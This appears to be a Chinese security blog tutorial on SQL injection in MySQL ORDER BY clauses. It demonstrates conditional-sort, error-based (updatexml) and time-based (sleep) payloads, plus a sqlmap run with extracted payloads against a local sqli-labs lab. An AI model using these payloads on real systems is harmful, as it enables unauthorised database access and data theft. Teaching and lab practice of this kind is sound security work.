 >这一系列文章打算去总结sql注入发生的位置，并总结他们的不同，此文是第一篇order by位置的注入

排序注入为何要拿出来说：
1. order by之后可用的语句有限，有必要去总结下其利用的特点

2. order by位置是比较难以使用预编译去处理的，像mybatis这一类成熟的框架中也存在这种问题详见：[Mybatis框架下SQL注入漏洞面面观](https://mp.weixin.qq.com/s?src=3&amp;timestamp=1514813452&amp;ver=1&amp;signature=aort5C46VjBc1nw781Wc8WUSE8n3ErlNwWwH94BBZVSJ--3bdFc5yDWx2qD0Bs-ydAPLNqAcH01Jkncw28TLJxymWKhZAnRucnkLZHRkiQZAA89cHB0QJBKJt2TE5JCDLNrKyQuZS7YMeMtxGEX29oPP2mEI1j3ko9QBWFnNqR8=)
 
# 0X00 order by 的官方文档

```sql
SELECT
    [ALL | DISTINCT | DISTINCTROW ]
      [HIGH_PRIORITY]
      [STRAIGHT_JOIN]
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT]
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS]
    select_expr [, select_expr ...]
    [FROM table_references
      [PARTITION partition_list]
    [WHERE where_condition]
    [GROUP BY {col_name | expr | position}
      [ASC | DESC], ... [WITH ROLLUP]]
    [HAVING where_condition]
    [ORDER BY {col_name | expr | position}
      [ASC | DESC], ...]
    [LIMIT {[offset,] row_count | row_count OFFSET offset}]
    [PROCEDURE procedure_name(argument_list)]
    [INTO OUTFILE 'file_name'
        [CHARACTER SET charset_name]
        export_options
      | INTO DUMPFILE 'file_name'
      | INTO var_name [, var_name]]
    [FOR UPDATE | LOCK IN SHARE MODE]]
```
只看order by部分我们知道order by后可以是“字段名”、“表达式”、“字段位置”，另外order by之后不可以出现union
```shell
mysql> select * from emails order by email_id union seletc * from users;
ERROR 1221 (HY000): Incorrect usage of UNION and ORDER BY
```
为啥会报错，还是mysql的文档用法里写的，大意就是order by如果出现在子句中必须出现在末尾或者将每个子句加上括号提升优先级，否则都会按照union的语法去执行
```sql
substatement union all substatement union all substatement [order by-clause] [limit-clause]
```
# 0X01 order by 注入利用
这里的利用方式无非也就两种：

1. 有回显式的注入
2. 盲注

首先解释第一种，有回显的注入。这种注入需要一个前置的条件，就是我们必须知道“字段名“，注意这里知道”字段位置“是没有用的，因为，这里的数字会被认为是字符串。依据页面排序的不同我们可以判断我们注入是否得到我们需要的值，像下面这样
```sql
mysql> select * from users order by if(1=2,id,username);
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  8 | admin    | admin      |
|  9 | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 14 | admin4   | admin4     |
|  2 | Angelina | I-kill-you |
|  7 | batman   | mob!le     |
| 12 | dhakkan  | dumbo      |
|  1 | Dumb     | Dumb       |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
+----+----------+------------+
13 rows in set (0.00 sec)

mysql> select * from users order by if(1=1,id,username);
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 12 | dhakkan  | dumbo      |
| 14 | admin4   | admin4     |
|  2 | Angelina | I-kill-you |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
|  7 | batman   | mob!le     |
|  8 | admin    | admin      |
|  9 | admin1   | admin1     |
+----+----------+------------+
13 rows in set (0.00 sec)
```
接下来是第二种，盲注，这里的盲注由于可以插入语句，所以基本上和where位置的注入差不了太多，可以报错或者时间

报错注入
```sql
mysql> select * from users order by updatexml(1,user(),1);
ERROR 1105 (HY000): XPATH syntax error: '@localhost'
```
更多的报错技巧可以查看之前的报错注入篇

时间注入
```sql
mysql> select * from users order by if(1=1,sleep(1),1);
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
|  9 | admin1   | admin1     |
|  4 | secure   | crappy     |
| 12 | dhakkan  | dumbo      |
|  7 | batman   | mob!le     |
|  2 | Angelina | I-kill-you |
| 10 | admin2   | admin2     |
|  5 | stupid   | stupidity  |
| 14 | admin4   | admin4     |
|  8 | admin    | admin      |
|  3 | Dummy    | p@ssword   |
| 11 | admin3   | admin3     |
|  6 | superman | genious    |
+----+----------+------------+
13 rows in set (13.05 sec)
```
可以发现这报错和时间注入在order by的情况下和where的情况下几近相似
相比回显和盲注，在order by的场景下，似乎是盲注的利用条件要简单过回显，但是回显的情况我相信还是存在的，只是还没有遇见
# 0X02 order by 注入成熟利用
比较过order by位置和where位置我相信一般的sqlmap注入指令就可以跑出这种类型的注入了，我们来看看
```shell
python sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-46/?sort=1" --dbms mysql --technique=BEUS
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.1.5#dev}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:05:42

[22:05:43] [INFO] testing connection to the target URL
[22:05:43] [INFO] testing if the target URL content is stable
[22:05:44] [INFO] target URL content is stable
[22:05:44] [INFO] testing if GET parameter 'sort' is dynamic
[22:05:44] [INFO] confirming that GET parameter 'sort' is dynamic
[22:05:44] [INFO] GET parameter 'sort' is dynamic
[22:05:44] [INFO] heuristic (basic) test shows that GET parameter 'sort' might be injectable (possible DBMS: 'MySQL')
[22:05:44] [INFO] heuristic (XSS) test shows that GET parameter 'sort' might be vulnerable to cross-site scripting (XSS) attacks
[22:05:44] [INFO] testing for SQL injection on GET parameter 'sort'
for the remaining tests, do you want to include all tests for 'MySQL' extending provin
[22:05:47] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:05:47] [WARNING] reflective value(s) found and filtering out
[22:05:47] [INFO] testing 'MySQL >= 5.0 boolean-based blind - Parameter replace'
[22:05:47] [INFO] GET parameter 'sort' appears to be 'MySQL >= 5.0 boolean-based blind - Parameter replace' injectable (with --string="10")
[22:05:47] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[22:05:47] [INFO] GET parameter 'sort' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
[22:05:47] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:05:47] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
GET parameter 'sort' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 50 HTTP(s) requests:
---
Parameter: sort (GET)
    Type: boolean-based blind
    Title: MySQL >= 5.0 boolean-based blind - Parameter replace
    Payload: sort=(SELECT (CASE WHEN (8800=8800) THEN 8800 ELSE 8800*(SELECT 8800 FROM INFORMATION_SCHEMA.PLUGINS) END))

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: sort=1 AND (SELECT 4316 FROM(SELECT COUNT(*),CONCAT(0x717a7a7871,(SELECT (ELT(4316=4316,1))),0x716b717071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
---
[22:05:49] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.6.33, Apache 2.4.28
back-end DBMS: MySQL >= 5.0
[22:05:49] [INFO] fetched data logged to text files under '/Users/nanchealdu/.sqlmap/output/127.0.0.1'
```
事实确实如此